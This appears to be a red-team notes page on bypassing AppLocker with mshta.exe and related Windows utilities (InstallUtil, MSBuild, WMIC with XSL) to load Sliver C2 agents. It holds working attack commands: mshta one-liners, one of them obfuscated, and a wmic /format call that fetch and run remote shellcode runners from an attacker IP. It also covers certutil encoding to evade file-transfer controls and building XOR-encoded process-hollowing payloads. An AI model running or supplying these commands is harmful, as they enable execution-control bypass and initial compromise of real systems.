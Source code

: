 ```yaml
---
description: Microsoft HTLM Applications (mshta.exe)
---
```


# MSHTA

## GitHub Tool Library Reference

The following is a collection of various AppLocker bypass tools specific to Microsoft HTML Applications (mshta.exe)

Main Directory: ToolLibrary/AppLocker-CLM/HTA

***

## Sliver HTA Loaders

The following repo's include all things for Basic and Advanced (HTTPS) HTA Loaders to Sliver.&#x20;

### References&#x20;

HTTP Sliver Profile: ToolLibrary/AppLocker-CLM/HTA/Sliver-Basic-HTA-Loader\
HTTPS Sliver Profile: ToolLibrary/AppLocker-CLM/HTA/Sliver-AdvancedHTTPs-HTA-Loader

For Sliver Profile Setup, refer to [Sliver Usage](sliver-usage.md#hta-bypass-for-sliver-agent-initial-foothold)

***

## InstallUtil.hta

using `InstallUtil.exe` within the HTA file to execute in context of `uninstall()` method or more specifically the `[System.ComponentModel.RunInstaller(true)]`.&#x20;

### References

HTA Template Reference: ToolLibrary/AppLocker-CLM/HTA/installutil.hta

```bash
# utility location
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe

# Basic Execution
InstallUtil.exe /logfile= /LogToConsole=false /u payload.exe

# Use windows dev box to encode to bypass file transfer restrictions
C:\Windows\System32\certutil.exe -encode bypass.exe encoded.txt
```

This method should be paired with the AppLocker-Bypass\* .NET assemblies in the following directories

* ToolLibrary/AppLocker-CLM/installUtil/\*

***

## jscript.sct

Using mshta.exe in this example to execute and download .sct shellcode runner

### Rerferences

File Reference: ToolLibrary/AppLocker-CLM/jscript.sct

{% code overflow="wrap" %}
```bash
# Basic Execution of jscript
mshta.exe "javascript:GetObject('script:http://192.168.45.277/jscript.sct');close();"
# slightly offuscated Execution of Jscript
mshta.exe "javascript:a=GetObject;b='script:http://192.168.45.227/jscript.sct';a(b);close();"
```
{% endcode %}

***

## MSBuild.hta

using `msbuild.exe` within HTA file to execute in context of embedded code in xml file.&#x20;

### References

HTA Template Reference: ToolLibrary/AppLocker-CLM/HTA/msbuild.hta\
Payload: ToolLibrary/ProcessHollowing/pshollow.cs\
XOR encoder: ToolLibrary/XOR-Encoder/xorencoder.cs

```bash
# utility location (32-bit)
C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe
# utility location (64 bit)
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe

# use XOR encoder for process hollowing payload
# Build the msfvenom payload and paste into xorencoder.cs and build/run solution
```

***

## XSL - WMIC

using `wmic` within HTA file to execute with inline arguments to to the XML Stylesheet Language (XSL) file which contains the code runner.&#x20;

### References

HTA Template Reference: ToolLibrary/AppLocker-CLM/HTA/xsl.hta\
File Reference: ToolLibrary/AppLocker-CLM/XSL/runner.xsl\
Sliver (dll) runner: ToolLibrary/Compiled/Sliver/SliverLoader-\<arch>.dll\
Payload Generator: \[DevBox] C:\Tools\DotNetToJScript\DotNet2JScript \
Sliver (jscript) runner: ToolLibrary/Compiled/Sliver/Sliver-\<arch>.js

{% code overflow="wrap" %}
```bash
# utility location
C:\Windows\System32\wbem\wmic.exe

# Basic execution
wmic process get /format:"http://192.168.45.227/runner.xsl"

# Create shellcode into dll; leverage DotNet2JScript and insert .js into line 10:
C:\Tools\DotNetToJScript>DotNetToJScript.exe SliverLoader-<arch>.dll --lang=Jscript --ver=v4 -o runner.js
# Copy contents of runner.js and place into runner.xsl line 10
```
{% endcode %}
